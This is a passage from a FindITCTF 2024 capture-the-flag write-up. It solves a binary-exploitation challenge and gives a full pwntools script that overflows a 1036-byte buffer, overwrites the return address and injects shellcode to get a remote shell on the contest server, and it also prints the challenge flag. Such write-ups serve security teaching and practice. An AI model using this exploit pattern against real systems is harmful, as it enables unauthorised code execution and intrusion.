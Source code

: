 ### Description

Use the elevator and convince everyone you are the admin.

### Solution

We’re given the binary, to make it easier im using dogbolt to decompile it:

![Untitled](FinditCTF%202024%20f1afe1fa67b14654b02a96d46a2eac51/Untitled%201.png)

Also using checksec very straightforward there is no protection for shellcode, so we can inject shellcode after buffer overflow i notice the buffer is 1032 and + 4 to close ebp so it will be 1036, here is my shellcode script:

```jsx
from pwn import *

HOST = "103.191.63.187"
PORT = "5000"
r = remote(HOST, PORT)
r.recvuntil(b'How are you?: \n\n')

context.binary = ELF('./admin')

# p = process()
offset = 1036
payload = b''
payload += offset*b'A'
payload += p32(0x08049199)
payload += asm(shellcraft.sh())
print(payload)
log.info(r.clean())

r.sendline(payload)
r.interactive()
```

![Untitled](FinditCTF%202024%20f1afe1fa67b14654b02a96d46a2eac51/Untitled%202.png)

### Flag

`FindITCTF{m4m4h_4ku_h3k3r_l33t}`

## **Everything Machine 2.0**

### Description

The "Everything Machine" is a volumetric printer that has the ability to copy and print any three dimensional object. The maintainer of the Everything Machine has received your feedback from last year and are proud to deploy the second model. But I think you can still force it to print a flag though.
